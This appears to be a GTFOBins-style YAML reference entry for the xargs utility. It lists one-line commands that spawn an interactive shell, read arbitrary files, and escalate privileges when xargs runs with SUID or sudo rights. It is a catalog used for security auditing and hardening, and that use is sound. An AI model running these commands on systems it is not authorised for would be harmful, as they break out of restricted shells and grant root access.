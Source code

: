 ```yaml
---
functions:
  execute-interactive:
    - description: GNU version only.
      code: xargs -a /dev/null sh
    - code: echo x | xargs -Iy sh -c 'exec sh 0<&1'
    - description: Read interactively from `stdin`.
      code: |
        xargs -Ix sh -c 'exec sh 0<&1'
        x^D^D
  file-read:
    - description: This works as long as the file does not contain the NUL character, also a trailing `$'\n'` is added. The actual `/bin/echo` command is executed. GNU version only.
      code: |
        LFILE=file_to_read
        xargs -a "$LFILE" -0
  suid-enabled:
    - description: GNU version only.
      code: ./xargs -a /dev/null sh -p
  sudo-enabled:
    - description: GNU version only.
      code: sudo xargs -a /dev/null sh
---
```

